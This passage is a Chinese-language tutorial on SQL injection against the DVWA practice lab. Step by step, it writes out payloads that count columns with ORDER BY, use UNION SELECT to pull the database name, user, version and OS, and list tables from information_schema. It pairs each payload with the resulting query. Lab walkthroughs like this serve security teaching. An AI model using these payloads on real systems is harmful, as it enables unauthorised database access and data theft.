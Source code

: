 我们是通过控制参数Id的值来返回我们需要的信息。
如果我们不按常理出牌，比如在输入框中输入 1' order by 1#

实际执行的Sql语句就会变成:
SELECT first_name, last_name FROM users WHERE user_id = '1' order by 1#`;(按照Mysql语法，#后面会被注释掉，使用这种方法屏蔽掉后面的单引号，避免语法错误)

这条语句的意思是查询users表中user_id为1的数据并按第一字段排行。
输入 1' order by 1#
和 1' order by 2#
时都返回正常：
![此处输入图片的描述](http://upload-images.jianshu.io/upload_images/3341325-ecb1728c17473a60?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![此处输入图片的描述](http://upload-images.jianshu.io/upload_images/3341325-498039aedd6efcf0?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
当输入 1' order by 3#
时，返回错误：
[图片上传中。。。（11）]
**由此可知，users表中只有两个字段，数据为两列。**
接下来我们使用 union select
联合查询继续获取信息。
union 运算符可以将两个或两个以上 select 语句的查询结果集合合并成一个结果集合显示，即执行联合查询。需要注意在使用 union 查询的时候需要和主查询的列数相同，而我们之前已经知道了主查询列数为 2，接下来就好办了。
输入1' union select database(),user()#
进行查询 ：
database()将会返回当前网站所使用的数据库名字.
user()将会返回执行当前查询的用户名.

实际执行的Sql语句是 :
SELECT first_name, last_name FROM users WHERE user_id = '1' union select database(),user()#`;

[图片上传中。。。（12）]
通过上图返回信息，我们成功获取到：
当前网站使用数据库为 dvwa .
当前执行查询用户名为 root@localhost .

同理我们再输入 1' union select version(),@@version_compile_os#
进行查询：
version() 获取当前数据库版本.
@@version_compile_os 获取当前操作系统。

实际执行的Sql语句是:
SELECT first_name, last_name FROM users WHERE user_id = '1' union select version(),@@version_compile_os#`;

[图片上传中。。。（13）]
通过上图返回信息，我们又成功获取到：
当前数据库版本为 : 5.6.31-0ubuntu0.15.10.1.
当前操作系统为 : debian-linux-gnu

接下来我们尝试获取 dvwa 数据库中的表名。
information_schema
 是 mysql 自带的一张表，这张数据表保存了 Mysql 服务器所有数据库的信息,如数据库名，数据库的表，表栏的数据类型与访问权限等。该数据库拥有一个名为 tables 的数据表，该表包含两个字段 table_name 和 table_schema，分别记录 DBMS 中的存储的表名和表名所在的数据库。
我们输入1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#
进行查询：
实际执行的Sql语句是：
SELECT first_name, last_name FROM users WHERE user_id = '1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`;
